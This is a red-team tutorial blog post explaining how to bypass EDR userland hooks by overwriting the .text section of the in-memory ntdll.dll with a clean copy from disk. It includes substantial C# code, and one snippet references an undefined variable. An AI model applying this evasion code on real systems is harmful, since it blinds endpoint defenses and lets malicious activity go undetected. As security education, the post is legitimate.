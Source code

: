 ```yaml
---
title: "Staying Under the Radar - Part 3 - Unhooking DLLs"
author:
  name: crypt0ace
  link: https://twitter.com/crypt0acee
date: 2022-09-24
description: "Unhooking DLLS in C#"
tags: [Red Team]
---
```

## Introduction
In this post we will look into how we can manually unhook DLLs that are attached by the EDRs. We can do this by swiping out the hooked version of `ntdll.dll`, the DLL to which all the function calls are eventually passed on before the syscall is made, with a new clean version.

## Endpoint Detection and Response
EDRs or Endpoint Detection and Response are security solutions that organizations deploy to protect their infrastructure from malicious attacks by detecting them and responding to them. According to CrowdStrike, *Using EDR, the threat hunters work proactively to hunt, investigate and advise on threat activity in your environment. When they find a threat, they work alongside your team to triage, investigate and remediate the incident, before it has the chance to become a full-blown breach.*

## Userland Hooks
A usual way EDRs detect behaviour of a program is by the process of _hooking_. What this means is that the EDRs will inject into a running process and monitor the use of API calls. Some of these API calls are considered malicious due to high usage of them in malicious programs. They can be *VirtualAlloc*, *QueueUserAPC*, *CreateRemoteThread*, etc.
<br>
An example of this has previously been discussed in [Part 1](https://crypt0ace.github.io/posts/Staying-under-the-Radar/) where we saw how BitDefender hooked into our process to look for malicious activity.

## Identifying Hooks
We can identify hooks if we follow execution of a process in a debugger. For this demonstration, I'm using x64Dbg. Once we load a program in the debugger we can go over to symbols and look for `ntdll.dll`. Clicking on it should give us a list of exports it has. This will contain a list of APIs that we can look.
<br>
![API Calls from NTDLL](/assets/img/staying-under-the-radar-3/functions.png)
<br>
In this demonstration I will be using `NtCreateProcess`. We can find it in the list and then double click it to see it in disassembler. We can observe a `JMP` instruction happening. That `JMP` instruction would take us the the DLL of BitDefender.
<br>
![BitDefender Hook](/assets/img/staying-under-the-radar-3/with-edr.png)
<br>
In comparison, if we look at this the same way from a machine that does not have BitDefender we see that the `JMP` instruction is not present anymore.
<br>
![No Hooks](/assets/img/staying-under-the-radar-3/without-edr.png)
<br>

## Unhooking
### Imports
We can start with importing some API calls that we would need to do this. There's a number of API calls all mentioned below and taken from Microsoft Docs and PInvoke.
```csharp
[DllImport("psapi.dll", SetLastError = true)]
public static extern bool GetModuleInformation(IntPtr hProcess, IntPtr hModule, out MODULEINFO lpmodinfo, uint cb);

[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr CreateFileA(string lpFileName, uint dwDesiredAccess, uint dwShareMode, IntPtr lpSecurityAttributes, uint dwCreationDisposition, uint dwFlagsAndAttributes, IntPtr hTemplateFile);

[DllImport("kernel32.dll")]
public static extern IntPtr GetCurrentProcess();

[DllImport("kernel32.dll", CharSet = CharSet.Auto)]
public static extern IntPtr GetModuleHandle(string lpModuleName);

[DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Auto)]
public static extern IntPtr CreateFileMapping(IntPtr hFile, IntPtr lpFileMappingAttributes, PageProtection flProtect, uint dwMaximumSizeHigh, uint dwMaximumSizeLow, string lpName);

[DllImport("kernel32.dll")]
public static extern IntPtr MapViewOfFile(IntPtr hFileMappingObject, FileMapAccessType dwDesiredAccess, UInt32 dwFileOffsetHigh, UInt32 dwFileOffsetLow, IntPtr dwNumberOfBytesToMap);

[DllImport("kernel32.dll")]
public static extern int VirtualProtect(IntPtr lpAddress, UInt32 dwSize, uint flNewProtect, out uint lpflOldProtect);

[DllImport("msvcrt.dll", SetLastError = false)]
public static extern IntPtr memcpy(IntPtr dest, IntPtr src, UInt32 count);

[DllImport("kernel32.dll", SetLastError = true)]
public static extern bool CloseHandle(IntPtr hObject);

[DllImport("kernel32.dll", SetLastError = true)]
public static extern bool FreeLibrary(IntPtr hModule);
```

We also need some structs but instead of pasting all of them here you can visit the github [here](https://github.com/crypt0ace/CS-Unhook) to look at all the code.

### Main Method
First we need to get the current process's handle. We can get that using `GetCurrentProcess` API.
```csharp
IntPtr currentProcessHandle = GetCurrentProcess();
```

Then we can initialize `MODULEINFO`. We need to get a handle to the `NTDLL.dll` that is currently loaded and is being hooked by BitDefender. We can use `GetModuleHhandle` for this. Next we need to use `GetModuleInformation` with the current process handle and the DLL Handle to retrieve the information from `MODULEINFO` struct. This information will be `lpBaseOfDll` to get the base address of `NTDLL.dll`
```csharp
MODULEINFO modInfo = new MODULEINFO();
IntPtr dllHandle = GetModuleHandle("ntdll.dll");
GetModuleInformation(currentProcessHandle, dllHandle, out modInfo, (uint)Marshal.SizeOf(modInfo));
IntPtr dllBase = modInfo.lpBaseOfDll;
```

After this we can start mapping a fresh copy of `NTDLL.dll` from disk. First we will get a handle of the fresh `NTDLL.dll` using `CreateFileA` with read access. Next we are going to use `CreateFileMapping` to create mapping of the specified DLL. Then we can map the DLL into memory using `MapViewOfFile` providing it the mapping and opening it with read access.
```csharp
string fileName = "C:\\Windows\\System32\\ntdll.dll";
IntPtr ntdllHandle = CreateFileA(ntdll, GENERIC_READ, FILE_SHARE_READ, IntPtr.Zero, OPEN_EXISTING, 0, IntPtr.Zero);
IntPtr ntdllMapping = CreateFileMapping(ntdllHandle, IntPtr.Zero, PageProtection.Readonly | PageProtection.SectionImage, 0, 0, null);
IntPtr ntdllMmapped = MapViewOfFile(ntdllMapping, FileMapAccessType.Read, 0, 0, IntPtr.Zero);
```

Next we get a pointer to the DOS Header from the DLL Base Address using `Marshal.PtrToStructure`. We can get a pointer to the NT Header structure by adding the Base Address of the DLL to `e_lfanew` which is a pointer to PE Header.
```csharp
IMAGE_DOS_HEADER dosHeader = (IMAGE_DOS_HEADER)Marshal.PtrToStructure(dllBase, typeof(IMAGE_DOS_HEADER));
IntPtr ptrtoNTHeader = (dllBase + dosHeader.e_lfanew);
IMAGE_NT_HEADERS64 ntHeader = (IMAGE_NT_HEADERS64)Marshal.PtrToStructure(ptrtoNTHeader, typeof(IMAGE_NT_HEADERS64));
```

After getting these values we can now check the sections. The section that we are interested in is the `.text` section because thats the one that holds all the executeable code. This also where our DLL will reside. So to overwrite the old DLL with our new DLL we are going to loop through the section names and try to find the `.text` one.
<br>
The number of sections are retrieved by using `ntHeader.FileHeader.NumberOfSections`. We need to locate the Section Header so we can retreive the names of the sections. We need to loop through all the sections and get a pointer to the Section Header. That way we can easily call the name of the sections using `sectionHeader.Name`.
```csharp
for (int i = 0; i < ntHeader.FileHeader.NumberOfSections; i++)
{
  IntPtr ptrtoSectionHeader = (ptrtoNTHeader + Marshal.SizeOf(typeof(IMAGE_NT_HEADERS64)));
  IMAGE_SECTION_HEADER sectionHeader = (IMAGE_SECTION_HEADER)Marshal.PtrToStructure((ptrtoSectionHeader + (i * Marshal.SizeOf(typeof(IMAGE_SECTION_HEADER)))), typeof(IMAGE_SECTION_HEADER));
  string sectionName = new string(sectionHeader.Name);
  Console.WriteLine(sectionName);
}
```

Now we need to use a for loop as if the section name contains `.text`, we can proceed with the code. We start by using `IntPtr.Add` to add the offset of the first byte of the section to the DLL Base Address. This will be the old hooked DLL address. Then we are going to do the same with the new DLL that we have mapped as well.
<br>
After this the actual change happens. We are going to use `VirtualProtect` to change the protection of the `.text` section to RWX. Then we use `memcpy` to overwrite the old DLL with the new one. And then change the protection back.
```csharp
if (sectionName.Contains(".text"))
{
  uint oldProtect = 0;
  IntPtr oldAddress = IntPtr.Add(dllBase, (int)sectionHeader.VirtualAddress);
  IntPtr newAddress = IntPtr.Add(ntdllMmapped, (int)sectionHeader.VirtualAddress);
  int vProtect = VirtualProtect(oldAddress, sectionHeader.VirtualSize, 0x40, out oldProtect);
  memcpy(oldAddress, newAddress, sectionHeader.VirtualSize);
  vProtect = VirtualProtect(oldAddress, sectionHeader.VirtualSize, oldProtect, out oldProtect);
}
```

When this is done, the function should be able to swipe the hooked DLL with a new fresh one which is not hooked.
![Clean NTDLL](/assets/img/staying-under-the-radar-3/after-unhooking.png)

## Code
The code can be found on my github [here](https://github.com/crypt0ace/CS-Unhook).

## Conclusion
As always this code is not perfect. EDRs or AVs might catch and burn this as soon as it hits the disk. EDRs and AVs are constantly updating and getting better at what they do so as everyone always says _Its just a game of cat and mouse_.

## References
All credits to these posts and codes

- [DLL Unhooking C# - MakosecBlog](https://makosecblog.com/malware-dev/dll-unhooking-csharp/)
- [Full DLL Unhooking - Kara-4search](https://github.com/Kara-4search/FullDLLUnhooking_CSharp/blob/main/FullDLLUnhooking/Program.cs)
- [SharpUnhooker - GetRektBoy724](https://github.com/GetRektBoy724/SharpUnhooker)
- [Classic API Unhooking to Bypass EDR Solutions - DepthSecurity](https://depthsecurity.com/blog/classic-api-unhooking-to-bypass-edr-solutions)
